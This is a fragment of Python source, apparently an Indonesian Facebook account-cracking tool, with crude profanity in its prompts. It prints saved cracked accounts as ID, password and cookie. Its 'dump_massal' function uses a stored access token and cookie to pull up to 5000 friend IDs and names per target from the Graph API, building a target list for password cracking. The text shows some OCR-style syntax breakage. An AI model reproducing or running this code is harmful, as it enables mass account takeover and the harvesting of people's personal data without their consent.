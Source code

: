 				print('>> File Tidak Di Temukan ')
				time.sleep(2)
				back()
			nocp=0
			for cpku in range(len(lin)):
				cpkuni=lin[nocp].split('|')
				cpkuh=f'# ID : {cpkuni[0]} PASSWORD : {cpkuni[1]}'
				sol().print(mark(cpkuh,style="green"))
				print(f'{hh}COOKIE : {x}{cpkuni[2]}')
				nocp +=1
			input('[ Klik Enter ]')
			back()
	elif kz in ['01,'00']:
		back()
	else:
		print('>> Pilih Yang Bener Kontol ')
		exit()
#-------------------[ CRACK-PUBLIK ]----------------#
def dump_massal():
	try:
		token = open('.token.txt','r').read()
		cok = open('.cok.txt','r').read()
	except IOError:
		exit()
	try:
		jum = int(input('>> CHAN ID DA ANEY ? : '))
	except ValueError:
		print('>> Masukkan Angka Anjing, Malah Huruff ')
		exit()
	if jum<1 or jum>100:
		print('>> Gagal Dump Idz ')
		exit()
	ses=requests.Session()
	yz = 0
	for met in range(jum):
		yz+=1
		kl = input('>> ID '+str(yz)+' : ')
		uid.append(kl)
	for userr in uid:
		try:
			col = ses.get('https://graph.facebook.com/v2.0/'+userr+'?fields=friends.limit(5000)&access_token='+tokenku[0], cookies = {'cookies':cok}).json()
			for mi in col['friends']['data']:
				try:
					iso = (mi['id']+'|'+mi['name'])
					if iso in id:pass
					else:id.append(iso)
				except:continue
		except (KeyError,IOError):
			pass
		except requests.exceptions.ConnectionError:
			print('>> Sinyal Loh Kek Kontoll ')
			exit()
	try:
		print('')
		print(f'>> ALL ID DUMP{h}'+str(len(id)))
		setting()
	except requests.exceptions.ConnectionError:
		print(f'{x}')
		print('>> Sinyal Lo kek Kontol ')
		back()
	except (KeyError,IOError):
		print(f'>>{k} Pertemanan Tidak Public {x}')
		time.sleep(3)